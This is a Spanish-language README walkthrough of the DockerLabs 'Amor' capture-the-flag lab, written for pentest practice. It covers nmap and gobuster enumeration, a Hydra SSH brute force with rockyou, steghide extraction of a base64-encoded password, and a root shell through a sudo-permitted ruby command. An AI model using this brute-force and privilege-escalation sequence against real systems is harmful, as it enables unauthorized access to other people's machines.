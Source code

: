 # DockerLabs - Reto Amor

## Descripción del Ejercicio

Este reto forma parte de la plataforma DockerLabs, orientada a practicar habilidades con Docker mediante laboratorios clasificados por dificultad. En esta ocasión, abordamos el reto de nivel **Fácil** llamado **Amor**, cuyo objetivo es desplegar un contenedor vulnerable, realizar escaneo, explotación por SSH, análisis de imágenes y esteganografía para obtener credenciales privilegiadas.

---

## 🛠️ Despliegue del Laboratorio

### Prerrequisitos
- Tener instalado Docker.

### Descarga del laboratorio

```bash
scp -r amor kali@192.168.1.12:/home/kali/Documents/
```

### Instalación de Docker en Kali (si no está instalado)

```bash
sudo apt install docker.io
```

### Despliegue de la máquina

```bash
./auto_deploy.sh amor.tar
```

---

## 🔎 Escaneo de la Red

### Paso 1: Identificar interfaz de red

```bash
ip add
```

### Paso 2: Descubrir hosts activos

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

### Paso 3: Escaneo de puertos

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

---

## 🌐 Enumeración Web

### Fuzzing con Gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

---

## 🔐 Ataque SSH con Hydra

### Ataque de fuerza bruta con Hydra

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

### Conexión SSH y navegación

```bash
ssh carlota@172.17.0.2
cd /carlota/Desktop/fotos/vacaciones
```

### Descarga del archivo

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```

---

## 🕵️‍♀️ Esteganografía

### Inspección de archivo

```bash
file imagen.jpg
steghide --extract -sf imagen.jpg
```

### Decodificación base64

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

### Escalada de privilegios

```bash
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami
```

---

## 📘 Investigación de Herramientas

| Herramienta   | Definición | Funcionalidad | Casos de Uso |
|---------------|------------|---------------|--------------|
| Docker        | Contenedor ligero | Despliegue de entornos aislados | DevOps, pentesting, microservicios |
| SCP           | Secure Copy Protocol | Transferencia de archivos segura por SSH | Migración de archivos, backups |
| Netdiscover   | Detector de redes | Descubrimiento de IPs activas en red local | Pentesting, análisis de red |
| Nmap          | Network Mapper | Escaneo de puertos y detección de servicios | Auditorías de seguridad |
| Gobuster      | Fuerza bruta en directorios web | Fuzzing de rutas en servidores web | Enumeración de contenido oculto |
| Hydra         | Fuerza bruta por protocolos | Descubrimiento de credenciales | Pentesting SSH, FTP, HTTP |
| Steghide      | Herramienta de esteganografía | Ocultamiento/Extracción de datos en imágenes | CTFs, ciberseguridad ofensiva |
| Base64        | Codificación de datos | Ocultar cadenas en base64 | Transmisión de datos, CTFs |
| Ruby console  | Lenguaje de scripting | Ejecución de comandos con permisos | Escalada de privilegios |

---

## 🔍 Variantes y Explicación de Comandos

(Se explicarán en detalle en la siguiente sección complementaria del README)

---

## 🔄 Diagrama de Flujo del Procedimiento

![Diagrama de Flujo del CTF]()

---

## 🧠 Conclusiones

Este laboratorio permitió aplicar múltiples técnicas de reconocimiento, escaneo, acceso remoto, esteganografía y escalada de privilegios de manera práctica y estructurada, reforzando competencias clave para CTFs y pentesting.

---

## 🖼️ Fuentes e Imágenes

- Capturas obtenidas de entorno real de laboratorio

![despliegue](despliegue%20maquina.png)

![Escaneo](escaneo%20puertos.png)

![Diagrama de Flujo del CTF]()
- Diccionarios: `rockyou.txt`, `dirbuster`
- Imagen descargada en `/Desktop/fotos/vacaciones/imagen.jpg`

